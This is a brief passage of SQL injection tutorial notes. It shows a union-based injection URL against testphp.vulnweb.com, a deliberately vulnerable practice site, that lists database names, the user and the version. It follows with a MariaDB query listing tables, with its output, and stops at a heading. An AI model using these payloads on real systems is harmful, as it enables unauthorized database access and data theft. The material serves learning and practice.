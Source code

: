 **To list all the database**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,schema_name,10,11 from information_schema.schemata
```

![image-20211013145514393](images/image-20211013145514393.png)

**To show all the tables**

```
MariaDB [dark]> select table_name from information_schema.tables where table_schema="dark";
+------------+
| table_name |
+------------+
| login      |
+------------+
1 row in set (0.001 sec)

MariaDB [dark]>
```

**To list all the tables**
